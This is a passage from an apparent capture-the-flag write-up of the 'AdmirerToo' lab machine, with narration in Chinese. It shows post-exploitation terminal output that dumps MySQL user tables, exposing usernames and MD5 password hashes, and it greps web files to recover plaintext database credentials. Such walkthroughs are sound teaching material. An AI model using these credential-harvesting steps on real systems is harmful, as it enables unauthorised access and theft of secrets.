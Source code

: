 ```
| user_login                           |
| word_verification                    |
| xml_feed_submits                     |
| xml_feeds                            |
| zipcodes                             |
+--------------------------------------+opentsdb@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -e 'show columns in user from cats_dev;'
+---------------------------+--------------+------+-----+---------+
| Field                     | Type         | Null | Key | Default |
+---------------------------+--------------+------+-----+---------+
| user_id                   | int(11)      | NO   | PRI | NULL    |
| site_id                   | int(11)      | NO   | MUL | 0       |
| user_name                 | varchar(64)  | NO   |     |         |
| email                     | varchar(128) | YES  |     | NULL    |
| password                  | varchar(128) | NO   |     |         |
<SNIP>
| can_see_eeo_info          | int(1)       | YES  |     | 0       |
+---------------------------+--------------+------+-----+---------+opentsdb@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -D cats_dev -e 'select user_name,password from user;'
+----------------+----------------------------------+
| user_name      | password                         |
+----------------+----------------------------------+
| admin          | dfa2a420a4e48de6fe481c90e295fe97 |
| cats@rootadmin | cantlogin                        |
| jennifer       | f59f297aa82171cc860d76c390ce7f3e |
+----------------+----------------------------------+
```

我无法破解这些 md5 哈希，所以现在这是一个死胡同。是时候对操作系统进行更多的枚举了，我最终找到了更多的凭证:

```
opentsdb@admirertoo:/var/www/adminer$ grep -rl "pass*" . 2>/dev/null
./plugins/data/servers.php
./plugins/oneclick-login.php
./plugins/plugin.php
./adminer-included-0ae90598f37b20e3e7eb122c427729ed.php

opentsdb@admirertoo:/var/www/adminer$ cat plugins/data/servers.php
<?php
return [
  'localhost' => array(
//    'username' => 'admirer',
//    'pass'     => 'bQ3u7^AxzcB7qAsxE3',
// Read-only account for testing
    'username' => 'admirer_ro',
    'pass'     => '1w4nn4b3adm1r3d2!',
    'label'    => 'MySQL',
    'databases' => array(
      'admirer' => 'Admirer DB',
    )
  ),
];
```
